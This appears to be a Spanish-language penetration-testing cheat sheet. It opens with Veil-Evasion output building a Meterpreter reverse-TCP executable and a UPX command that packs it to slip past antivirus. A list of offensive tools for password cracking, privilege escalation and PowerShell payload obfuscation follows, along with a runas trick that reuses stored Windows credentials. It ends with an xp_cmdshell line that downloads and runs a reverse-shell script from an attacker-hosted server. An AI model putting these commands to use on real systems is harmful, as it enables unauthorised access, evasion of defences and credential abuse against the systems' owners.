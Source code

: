   	   [>] Please enter the base name for output files (default is payload): hello
  	  ===============================================================================
	                                     Veil-Evasion
	  ===============================================================================
	        [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
	  ===============================================================================

	   [?] How would you like to create your payload executable?

	       1 - PyInstaller (default)
	       2 - Py2Exe

	   [>] Please enter the number of your choice: 1
	  ...
	  ===============================================================================
	                                   Veil-Evasion
	  ===============================================================================
	        [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
	  ===============================================================================

	   [*] Language: python
	   [*] Payload Module: python/meterpreter/rev_tcp
	   [*] Executable written to: /var/lib/veil/output/compiled/hello.exe
	   [*] Source code written to: /var/lib/veil/output/source/hello.py
	   [*] Metasploit Resource file written to: /var/lib/veil/output/handlers/hello.rc

	  Hit enter to continue...
      ```
      Por último, utilizando UPX se comprime el ejecutable:
      ```bash
      ┌──(rootkali)-[~]
	  └─# mv /var/lib/veil/output/compiled/hello.exe hello_world.exe

	  ┌──(rootkali)-[~]
	  └─# upx --best --ultra-brute -o hello_sneak.exe hello_world.exe
      ```
      El payload que se debe usar en el handler de Metasploit en este caso sería `windows/meterpreter/reverse_tcp`
- [**Armitage**](https://github.com/rsmudge/armitage)**:** GUI para metasploit
- [**Hydra**](https://github.com/vanhauser-thc/thc-hydra)**:** Buscar contraseñas por fuerza bruta a tavés de un protocolo o web
- [**SessionGopher**](https://github.com/Arvanaghi/SessionGopher)**:** SessionGopher es una herramienta de PowerShell que busca y descodifica sesiones guardadas para herramientas de acceso remoto
- [**linpeas/winpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)**:** Saca info de la máquina para ver como escalar
- Para mirar que permisos tenemos en Windows podemos ejecutar: `whoami /priv`. Si tenemos `SeImpersonatePrivilege` o `SeImpersonatePrivilege` posiblemente podamos escalar privilegios fácilmente
- [**Seatbelt**](https://github.com/GhostPack/Seatbelt)**:** Parecido al anterior pero solo con Windows. [Aquí](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) se pueden descargar los .exe ya compilados
	- Si Seatbelt pilla que una cuenta tiene las credenciales guardadas en el Gestor de Credenciales de Windows podemos ejecutar comandos como dicha cuenta de la siguiente manera: `runas /savecred /user:<usario> /profile "cmd.exe"`
- [**John the Ripper**](https://github.com/openwall/john)**:** Permite crackear un montón de tipos de contraseñas.
- [**Invoke-CradleCrafter**](https://github.com/danielbohannon/Invoke-CradleCrafter)**:** Permite generar payloads ofuscados para ejecutar desde Powershell
- [**Invoke-Obfuscation**](https://github.com/danielbohannon/Invoke-Obfuscation)**:** Permite ofuscar payloads the Powershell
- **ReverShell desde server SQL:**
	- Con este comando: `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"` se puede ejecutar
la shell reversa que tenemos en el equipo desde server SQL vulnerable. 
	- Recordad hacer en local: 
		- **`python3 -m http.server 80`:** En el directorio donde se tenga el archivo de `reverseShell`